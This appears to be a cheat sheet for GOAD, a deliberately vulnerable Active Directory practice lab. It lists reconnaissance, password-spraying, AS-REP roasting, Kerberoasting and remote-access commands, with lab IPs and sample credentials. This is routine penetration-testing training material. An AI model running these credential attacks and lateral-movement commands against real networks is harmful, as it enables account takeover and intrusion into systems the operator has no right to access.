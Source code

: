 ### 📋 **Quick Reference & Cheat Sheets**

---

### **Essential GOAD Commands**

### **Initial Reconnaissance**

```bash
# Network discovery
nmap -Pn 192.168.20.0/24 -sn

# Service enumeration
naabu -list goad-targets.txt -top-ports 1000

# BloodHound collection
bloodhound-python -u hodor -p hodor -d north.sevenkingdoms.local -dc 192.168.20.11 -c All

```

### **Credential Attacks**

```bash
# Password spraying
crackmapexec smb 192.168.20.0/24 -u users.txt -p 'Winter2019' --continue-on-success

# ASREPRoasting
GetNPUsers.py north.sevenkingdoms.local/ -dc-ip 192.168.20.11 -usersfile users.txt -no-pass

# Kerberoasting
GetUserSPNs.py north.sevenkingdoms.local/hodor:hodor -dc-ip 192.168.20.11

```

### **Lateral Movement**

```bash
# SMB enumeration
smbclient -L //192.168.20.23 -N

# WinRM access
evil-winrm -i 192.168.20.22 -u jon.snow -p password

# MSSQL connection
mssqlclient.py north.sevenkingdoms.local/jon.snow:password@192.168.20.22 -windows-auth

```

### **Key File Locations**

- **BloodHound Data**: `~/.local/share/bloodhound/`
- **Nuclei Templates**: `~/.nuclei-templates/`
- **GOAD Targets**: `~/lab-scans/goad/targets.txt`
- **Results Directory**: `~/goad-results/`

---